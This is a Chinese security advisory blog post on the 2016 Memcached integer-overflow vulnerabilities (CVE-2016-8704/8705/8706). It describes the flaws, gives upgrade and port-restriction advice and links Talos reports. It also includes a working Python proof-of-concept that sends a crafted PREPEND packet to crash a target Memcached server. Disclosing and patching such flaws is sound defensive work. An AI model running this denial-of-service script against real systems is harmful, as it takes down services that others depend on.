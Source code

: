 ```yaml
---
layout: post
title: "Memcached修复多处高危漏洞可导致代码执行、拒绝服务"
categories:
- 今日头条
tags:
---
```

![](http://p3.pstatp.com/large/10210003b76d94aed416)

背景介绍

Memcached是一个自由开源的，高性能，分布式内存对象缓存系统。

Memcached是以LiveJournal旗下Danga Interactive公司的Brad Fitzpatric为首开发的一款软件。现在已成为mixi、hatena、Facebook、Vox、LiveJournal等众多服务中提高Web应用扩展性的重要因素。

Memcached是一种基于内存的key-value存储，用来存储小块的任意数据（字符串、对象）。这些数据可以是数据库调用、API调用或者是页面渲染的结果。

本质上，它是一个简洁的key-value存储系统。

一般的使用目的是，通过缓存数据库查询结果，减少数据库访问次数，以提高动态Web应用的速度、提高可扩展性。

漏洞描述

2016年10月31日 Memcached发布安全补丁修复多个远程代码执行漏洞，利用该漏洞黑客可以窃取在Memcached中存放的业务数据，或导致Memcached服务崩溃从而造成拒绝服务等危害，安全客提醒用户应当及时升级官方版本至1.4.33版本。

Memcached存在多个整数溢出漏洞，可导致远程代码执行。

这些漏洞存在于用于插入（inserting）、附加（appending,）、前置（prepending）、修改键值对的函数中，在SASL身份验证位置也存在问题。

攻击者可以通过向服务器发送一个精心构造的Memcached命令实现该漏洞的利用。此外，这些漏洞还可以泄露敏感的进程信息，并且可以多次触发，利用这些敏感的进程信息，攻击者可以绕过像ASLR等常见的漏洞缓解机制。

由于可以绕过这些通用的漏洞缓解机制，使得这些漏洞的危害尤为严重。

虽然Memcached文档中已经强烈建议将Memcached服务配置在可信任的网络环境中，但是仍有大量的Memcached服务可以在公网中直接访问。

此外，即使Memcached部署在内网中，企业的安全管理人员仍然不能忽视此次更新的安全问题，黑客可能通过内网渗透、SSRF漏洞等，直接对部署在内网的服务发起攻击。

漏洞编号

CVE-2016-8704 - Memcached Append/Prepend 远程代码执行漏洞

CVE-2016-8705 - Memcached Update 远程代码执行漏洞

CVE-2016-8706 - Memcached SASL身份验证远程代码执行漏洞

漏洞利用代码（POC）：（下面代码可导致业务崩溃、拒绝服务，请勿轻易尝试）

1234567891011121314151617181920212223242526272829303132333435import structimport socketimport sysMEMCACHED_REQUEST_MAGIC = "\x80"OPCODE_PREPEND_Q = "\x1a"key_len = struct.pack("!H",0xfa)extra_len = "\x00"data_type = "\x00"vbucket = "\x00\x00"body_len = struct.pack("!I",0)opaque = struct.pack("!I",0)CAS = struct.pack("!Q",0)body = "A"*1024if len(sys.argv) != 3: print "./poc_crash.py <server> <port>"packet = MEMCACHED_REQUEST_MAGIC + OPCODE_PREPEND_Q + key_len + extra_lenpacket += data_type + vbucket + body_len + opaque + CASpacket += bodyset_packet = "set testkey 0 60 4\r\ntest\r\n"get_packet = "get testkey\r\n"s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)s1.connect((sys.argv[1],int(sys.argv[2])))s1.sendall(set_packet)print s1.recv(1024)s1.close()s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)s2.connect((sys.argv[1],int(sys.argv[2])))s2.sendall(packet)print s2.recv(1024)s2.close()s3 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)s3.connect((sys.argv[1],int(sys.argv[2])))s3.sendall(get_packet)s3.recv(1024)s3.close()

测试效果：

![](http://p9.pstatp.com/large/106c0000272562fa0905)

国内影响统计：（以下数据来自fofa.so）

![](http://p3.pstatp.com/large/1064000769a0a32cf4b6)

漏洞细节

技术细节、分析

http://www.talosintelligence.com/reports/TALOS-2016-0219/

http://www.talosintelligence.com/reports/TALOS-2016-0220/

http://www.talosintelligence.com/reports/TALOS-2016-0221/

解决办法

1.升级官方最新版本：1.4.33版本 http://www.memcached.org/files/memcached-1.4.33.tar.gz

2.限制Memcached 11211端口访问权限（如：禁止外网访问、仅限特定端口访问）

参考链接

https://github.com/memcached/memcached/wiki/ReleaseNotes1433

http://blog.talosintel.com/2016/10/memcached-vulnerabilities.html

http://www.talosintelligence.com/reports/TALOS-2016-0219/

http://www.talosintelligence.com/reports/TALOS-2016-0220/

http://www.talosintelligence.com/reports/TALOS-2016-0221/